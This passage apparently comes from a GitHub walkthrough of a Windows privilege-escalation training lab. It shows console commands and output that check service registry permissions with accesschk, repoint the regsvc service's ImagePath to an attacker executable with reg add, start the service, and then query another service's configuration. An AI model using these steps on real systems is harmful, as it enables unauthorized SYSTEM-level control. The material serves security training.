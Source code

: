 ```bash
C:\PrivEsc>accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
	KEY_ALL_ACCESS
```

```bash
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f            
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f
The operation completed successfully.
```

<img width="1093" height="272" alt="image" src="https://github.com/user-attachments/assets/21de0e21-54dc-4c44-8c41-4844737e3598" />

```bash
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f            
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f
The operation completed successfully.
```

```bash
C:\PrivEsc>net start regsvc
```

<h2 align="center">Task 6 . Service Exploits - Insecure Service Executables</h2>

<p><em>Answer the question below</em></p>

<p>6.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>


```bash
C:\PrivEsc>sc qc filepermsvc
sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
